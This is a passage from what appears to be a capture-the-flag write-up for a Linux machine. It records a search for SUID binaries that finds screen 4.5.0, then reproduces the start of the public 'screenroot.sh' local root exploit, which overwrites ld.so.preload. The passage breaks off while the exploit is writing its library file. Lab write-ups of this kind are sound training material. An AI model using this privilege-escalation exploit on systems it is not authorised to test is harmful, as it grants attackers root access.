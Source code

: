 ```bash

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ 

```

---
## Privilege Escalation


- ### searched for suid binaries 
	- *find / -perm -4000 2>/dev/null*
	- found screen-4.5.0
```bash
joker@ubuntu:/etc# find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0  <==
/bin/screen-4.5.0.old <==
/bin/mount
/bin/ping
/bin/umount

```
	
- ## googled screen-4.5.0 exploits 
	- found https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
	- and exploitDB had this
	```bash
	#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c